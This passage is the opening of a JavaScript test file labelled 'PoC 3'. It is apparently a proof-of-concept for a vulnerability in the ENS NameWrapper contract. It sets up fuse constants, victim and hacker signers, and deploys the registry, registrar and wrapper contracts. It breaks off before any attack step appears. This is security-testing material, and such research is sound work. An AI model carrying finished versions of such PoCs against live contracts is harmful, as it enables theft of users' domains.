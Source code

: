 ```javascript=

const CANNOT_UNWRAP = 1
const CANNOT_BURN_FUSES = 2
const CANNOT_TRANSFER = 4
const CANNOT_SET_RESOLVER = 8
const CANNOT_SET_TTL = 16
const CANNOT_CREATE_SUBDOMAIN = 32
const PARENT_CANNOT_CONTROL = 64
const CAN_DO_EVERYTHING = 0

describe('PoC 3', () => {
  let ENSRegistry
  let BaseRegistrar
  let NameWrapper
  let NameWrapperV
  let MetaDataservice
  let signers
  let dev
  let victim
  let hacker
  let result
  let MAX_EXPIRY = 2n ** 64n - 1n

  before(async () => {
    signers = await ethers.getSigners()
    dev = await signers[0].getAddress()
    victim = await signers[1].getAddress()
    hacker = await signers[2].getAddress()

    EnsRegistry = await deploy('ENSRegistry')
    EnsRegistryV = EnsRegistry.connect(signers[1])
    EnsRegistryH = EnsRegistry.connect(signers[2])

    BaseRegistrar = await deploy(
      'BaseRegistrarImplementation',
      EnsRegistry.address,
      namehash('eth')
    )

    await BaseRegistrar.addController(dev)
    await BaseRegistrar.addController(victim)

    MetaDataservice = await deploy(
      'StaticMetadataService',
      'https://ens.domains'
    )

    NameWrapper = await deploy(
      'NameWrapper',
      EnsRegistry.address,
      BaseRegistrar.address,
      MetaDataservice.address
    )
    NameWrapperV = NameWrapper.connect(signers[1])
    NameWrapperH = NameWrapper.connect(signers[2])

    // setup .eth
    await EnsRegistry.setSubnodeOwner(
      ROOT_NODE,
      labelhash('eth'),
      BaseRegistrar.address
    )

```